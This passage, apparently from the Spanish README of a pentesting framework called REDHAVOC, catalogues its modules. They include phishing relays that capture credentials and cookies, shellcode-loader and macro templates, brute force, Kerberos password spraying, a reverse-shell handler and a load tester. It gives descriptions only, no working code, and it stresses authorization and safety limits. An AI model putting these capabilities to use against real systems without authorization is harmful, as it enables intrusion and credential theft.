| `web/ssti_scanner` | SSTI con sondas inocuas (7*7): Jinja2, Twig, FreeMarker, ERB, Smarty | medio |
| `web/clickjack` | Anti-clickjacking: X-Frame-Options, CSP frame-ancestors, iframes | bajo |
| `web/xss_reflected` | Detector EDUCATIVO de XSS reflejado por marcador inerte + contexto | medio |
| `web/path_traversal` | Detector EDUCATIVO de LFI: variantes ../, doble encode, firma | medio |
| `web/http_methods` | Métodos aceptados: Allow de OPTIONS, eco TRACE (XST), WebDAV declarado | bajo |
| `web/host_header_injection` | Reflexión de Host/X-Forwarded-Host con sonda inexistente (reset/cache poisoning) | bajo |
| `web/open_redirect` | Sonda inerte de redirección abierta: Location y meta-refresh, sin seguirla | bajo |
| `web/subdomain_takeover` | CNAME colgado + 15 firmas (GitHub Pages, S3, Azure, Heroku...) con DNS propio | medio |
| `web/graphql_probe` | Endpoints GraphQL: introspección, playgrounds y consola GraphiQL | medio |
| `web/crlf_scan` | Inyección CRLF en cabeceras de respuesta con canario único por prueba | medio |

### 🎣 phishing
| Módulo | Descripción | Riesgo |
|---|---|---|
| `phishing/template_gen` | Genera páginas de simulación desde plantillas | medio |
| `phishing/campaign_server` | Servidor de simulación con tracking y captura (estilo GoPhish) | alto |
| `phishing/mailer` | Envío SMTP con `DRY_RUN=true` por defecto | alto |
| `phishing/tunnel` | Túnel SSH inverso (serveo/localhost.run) para la campaña local (zphisher) | medio |
| `phishing/relay_proxy` | Proxy inverso de SIMULACIÓN (evilginx2 de lab): captura creds/cookies | alto |

### 💣 payloads
| Módulo | Descripción | Riesgo |
|---|---|---|
| `payloads/dll_sideload` | Proyecto DLL proxy educativo (MITRE T1574.002) | alto |
| `payloads/loader_gen` | Plantillas de shellcode runner C (MITRE T1055/T1027) | alto |
| `payloads/macro_gen` | Plantilla VBA educativa (MITRE T1204.002) | alto |

### 🕵️ osint (ideas de jasonxtn/argus + reconmap)
| Módulo | Descripción | Riesgo |
|---|---|---|
| `osint/email_harvest` | Correos expuestos en el sitio (mailto + obfuscaciones + contacto) | bajo |
| `osint/social_presence` | Alias en ~20 plataformas públicas (estilo Sherlock) | bajo |
| `osint/spf_dmarc` | Valida SPF/DMARC/selectores DKIM con cliente DNS propio | bajo |
| `osint/zone_transfer` | Intento AXFR por TCP/53 contra los NS del dominio | medio |
| `osint/typosquat` | Genera typosquats y comprueba cuáles están registrados | bajo |
| `osint/reverse_ip` | Dominios en la misma IP (hosting compartido) | bajo |
| `osint/cert_transparency` | Subdominios vía CT logs (crt.sh + CertSpotter) — reconmap | bajo |
| `osint/wayback_urls` | URLs históricas vía Wayback CDX (endpoints con parámetros) — reconmap | bajo |
| `osint/rdap_lookup` | Ficha RDAP: registrar/abuse (dominio) o ASN/org/país (IP) — reconmap | bajo |
| `osint/doc_metadata` | Metadatos FOCA de PDF/DOCX/XLSX: autores, software, correos — reconmap | bajo |
| `osint/paste_search` | Pastes filtrados que mencionan el dominio (psbdmp.ws) — reconmap | bajo |
| `osint/email_verify` | Verificación SMTP de buzones (RCPT TO, sin enviar correo) — reconmap | medio |
| `osint/dork_builder` | Cuaderno de Google/GitHub dorks del dominio (offline, sin scrapear) | bajo |

### 📡 iot (ideas de la sección IoT de Scanners-Box)
| Módulo | Descripción | Riesgo |
|---|---|---|
| `iot/device_scan` | Huella IoT/OT: Telnet, RTSP, MQTT, Modbus, S7, BACnet + banners | medio |
| `iot/upnp_discover` | Descubrimiento SSDP/UPnP en la LAN del laboratorio | medio |
| `iot/default_creds` | Credenciales de FÁBRICA (telnet+basic) solo en tu lab (IoTSeeker) | alto |

### 🧩 post / 🥷 opsec
| Módulo | Descripción | Riesgo |
|---|---|---|
| `post/multi_handler` | Listener multi-sesión de shells reversas del laboratorio | alto |
| `post/host_audit` | Genera script PS1 de auditoría de host (EvasiveAudit-style, sin evasión) | alto |
| `opsec/tor_check` | Comprueba si sales por TOR y avisa si no | bajo |
| `opsec/proxy_check` | Verifica tu IP de salida en 2 servicios y detecta fugas de la cadena | bajo |
| `opsec/mac_changer` | Aleatoriza la MAC local (Linux+root) con restauración | medio |

### 🔨 brute (credenciales — SOLO con AUTHORIZED)
| Módulo | Descripción | Riesgo |
|---|---|---|
| `brute/ftp_login` | Auditoría de credenciales en FTP (stdlib, acotada) | alto |
| `brute/http_basic` | Auditoría de HTTP Basic Auth (stdlib, acotada) | alto |
| `brute/ssh_login` | Auditoría SSH con paramiko (dependencia opcional) | alto |
| `brute/telnet_login` | Auditoría Telnet con socket puro y verificación por eco | alto |

### 🌊 dos (pruebas de estrés controladas)
| Módulo | Descripción | Riesgo |
|---|---|---|
| `dos/stress_http` | Prueba de carga acotada (máx. 60 s / 50 hilos / 200 rps) con métricas | alto |

### 🏛️ ad (Active Directory — laboratorio autorizado)
| Módulo | Descripción | Riesgo |
|---|---|---|
| `ad/ldap_enum` | Enumeración de objetos del directorio vía LDAP (cliente propio) | medio |
| `ad/kerberos_userenum` | Enumeración de usuarios estilo kerbrute (AS-REQ, errores 25/6/18) | medio |
| `ad/asreproast` | AS-REP roasting → hashes hashcat -m 18200 (+ CRACK offline puro) | medio |
| `ad/kerberoast` | TGS de cuentas con SPN → hashcat -m 13100 (+ CRACK offline puro) | medio |
| `ad/spn_enum` | Cuentas con servicePrincipalName (pre-kerberoasting) | medio |
| `ad/smb_check` | Firma SMB exigida, dialecto, GUID y NTLM (riesgo de relevo) | medio |
| `ad/smb_login` | Validación de credenciales SMB2 con NTLMv2 propio (NetExec-like) | alto |
| `ad/smb_share_enum` | Shares SMB: LEGIBLE / DENEGADO / NO EXISTE (NetExec --shares) | medio |
| `ad/passwd_spray` | Password spray Kerberos con canario anti-lockout y pausa | alto |
| `ad/net_discover` | Escucha PASIVA de LLMNR/NBT-NS/mDNS (no envenena) | medio |
| `ad/gpp_cpassword` | Descifra cpassword de GPP con AES-256 puro (MS14-025) | medio |
| `ad/rootdse_enum` | RootDSE anónima: DN base, esquema, niveles funcionales del bosque | bajo |

### ☁️ cloud (almacenamiento anónimo — solo lectura, MITRE T1619)
| Módulo | Descripción | Riesgo |
|---|---|---|
| `cloud/s3_enum` | Cubos S3 con listado anónimo (ListObjectsV2): LISTABLE/PROTEGIDO/NO_EXISTE | bajo |
| `cloud/azure_blob` | Contenedores de Azure Blob listables sin credenciales | bajo |
| `cloud/gcs_enum` | Cubos de Google Cloud Storage con metadata/listado anónimo | bajo |
| `cloud/k8s_enum` | Planos de control de contenedores expuestos: Kubernetes API, kubelet, Docker (T1613) | medio |

> Los módulos **brute**, **dos** y **ad/passwd_spray** solo funcionan con
> `AUTHORIZED=true` y aplican topes duros de diseño: pretenden validar contraseñas
> débiles y resiliencia en TU infraestructura, no atacar a terceros.
> El spray incluye **canario**: una cuenta centinela que al acumular fallos aborta
> todo el spray antes de provocar bloqueos en el dominio.
>
> Los módulos **payloads** y **post/host_audit** generan *plantillas de código* con
> shellcode inocuo y guías de detección — no binarios maliciosos. `host_audit` NO
> incluye técnicas de evasión (sin AMSI bypass) por diseño.

## 📁 Estructura del proyecto

```text
REDHAVOC/
├── redhavoc.py            # launcher
├── CHANGELOG.md           # historial de versiones (Keep a Changelog)
├── core/                  # motor del framework
│   ├── framework.py       #   consola REPL y comandos
│   ├── module_manager.py  #   descubrimiento y registro de módulos
│   ├── base_module.py     #   clase base de módulos (+ tags ATT&CK)
│   ├── option_store.py    #   sistema de opciones (set/unset)
│   ├── workspace_db.py    #   DB del workspace (hosts/servicios/creds)
│   ├── engagement.py      #   scope autorizado + kill-date (bloquea run)
│   ├── krb5.py            #   cliente Kerberos mínimo (DER, MD4, RC4-HMAC)
│   ├── ldap_min.py        #   cliente LDAP mínimo (BER, bind, search)
│   ├── aes_min.py         #   AES-256 puro (FIPS-197) para GPP cpassword
│   ├── pdf_min.py         #   generador de PDF puro (informes ejecutivos)
│   ├── plugins.py         #   packs de plugins desde Git/ruta (v2.1)
│   ├── advice.py          #   motor de consejos (playbook)
│   ├── reporter.py        #   informes JSON + Markdown + HTML + PDF
│   ├── ethics.py          #   disclaimer + auditoría
│   ├── banner.py          #   arte ASCII
│   └── colors.py          #   tema Rich
├── modules/               # 79 módulos en 12 categorías
├── plugins/               # plugins instalados (plugin install)
├── templates/             # phishing (12 páginas), payloads, wordlists, informe ejecutivo, engagement_ejemplo.json
├── tests/                 # suite pytest (534 tests)
├── assets/img/            # capturas de la consola para la documentación
├── docs/                  # ARCHITECTURE · MODULES · DEVELOPMENT
├── output/                # informes generados (JSON/MD/HTML/PDF)
└── workspace/             # estado: aceptación, auditoría, capturas, db.json, engagement.json
```

## 🧪 Tests

```bash
python3 -m pytest tests/ -q      # 534 tests unitarios + integración + E2E
```

Incluyen: opciones, gestor de módulos, reporter (JSON/MD/HTML/PDF), generador
PDF, plugins, workspace DB, ética, REPL, parser DNS binario, escáner de
puertos contra localhost, expansión de objetivos RHOSTS, jobs, mocks de red
para todos los módulos y pruebas E2E de la consola completa (incluido PTY real).

## 📚 Documentación

- [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) — diseño interno del framework
- [docs/MODULES.md](docs/MODULES.md) — catálogo detallado con ejemplos por módulo
- [docs/DEVELOPMENT.md](docs/DEVELOPMENT.md) — crea tus propios módulos en 5 minutos
- [docs/RESEARCH_MEJORAS.md](docs/RESEARCH_MEJORAS.md) — estudio de referentes (NetExec, msf, C2...) y plan de mejoras
- [DISCLAIMER.md](DISCLAIMER.md) — aviso legal y ético

## 🛣️ Roadmap

- [x] Módulos de Active Directory (estilo NetExec/kerbrute) — hecho en v1.3
- [x] Engagement con scope y kill-date — hecho en v1.3
- [x] Mapa MITRE ATT&CK (comando `attack`) — hecho en v1.3
- [x] Kerberoasting completo (TGS-REQ propio + crackeo offline puro) — hecho en v1.4
- [x] smb_login NTLMv2 + enumeración de shares — hecho en v1.4
- [x] Tabla `vulns` del workspace + comando `resource` (.rc) — hecho en v1.4
- [x] Resultados pintados en la terminal + spinner con cronómetro + boot animado — hecho en v1.5
- [x] Sesiones cifradas (TLS) en el multi-handler — hecho en v1.5 (cert del lab + `--tls` en el agente)
- [x] Motor de consejos: siguientes pasos tras cada resultado + comando `consejos` — hecho en v1.6
- [x] Rediseño profesional (adiós estética hacker) + smoke de los 58 módulos — hecho en v1.6
- [x] TAB completado de verdad (bug de v1) · suite sin red y 2x rápida · escaneo 5x más ágil — hecho en v1.7
- [x] Limpieza selectiva del workspace · `use <n>` por índice · `setg/unsetg` · `sessions -k all` · DNS en paralelo — hecho en v1.8
- [x] `notes` (cuaderno del operador) · `export json/csv/md` · `audit [N]` · historial persistente · resumen al salir · filtros en `search` — hecho en v1.9
- [x] **Workspaces múltiples** (`workspace new/use/del`) + **persistencia de opciones** entre sesiones — hecho en v2.0
- [x] **GPP cpassword** con AES-256 puro (FIPS-197) + 5 módulos nuevos (smtp_enum, clickjack, xss_reflected, path_traversal, telnet_login) — hecho en v2.0
- [x] **Exportación de informes a PDF** (generador puro `core/pdf_min` + `export pdf`) — hecho en v2.1
- [x] **Relay inverso de phishing** de laboratorio (`phishing/relay_proxy`) — hecho en v2.1
- [x] **Plugins desde Git** (`plugin install/list/del` con revisión y auditoría) — hecho en v2.1
- [x] Categoría **cloud** (S3/Azure/GCS anónimo), takeover, host header, open redirect, métodos HTTP y dorks — hecho en v2.1 (73 módulos)
- [x] redis_enum, snmp_enum, graphql_probe, crlf_scan, k8s_enum y rootdse_enum — hecho en v2.2 (79 módulos)
- [x] **Barrido multi-host estilo NetExec** (`RHOSTS`: CIDR/rangos/@fichero, línea por host, clones por hilo) — hecho en v2.3
- [x] **Jobs en segundo plano** (`run -j`, `jobs`, `jobs -k`) + comando `services` + `sessions -x` + CVEs en `info` — hecho en v2.3
- [x] **Integración continua (CI)** con badge de tests (Python 3.9–3.12) — hecho en v2.3
- [ ] Modo `verbose` por módulo con trazas técnicas ampliadas
- [ ] Loot (artefactos capturados por host) + CVSS/remediación en el informe PDF — v2.4
- [ ] ADCS (`adcs_enum`) y detección de coerción (`coerce_check`) — v2.5

## 📄 Licencia

MIT — ver [LICENSE](LICENSE). Los autores no se responsabilizan del mal uso.
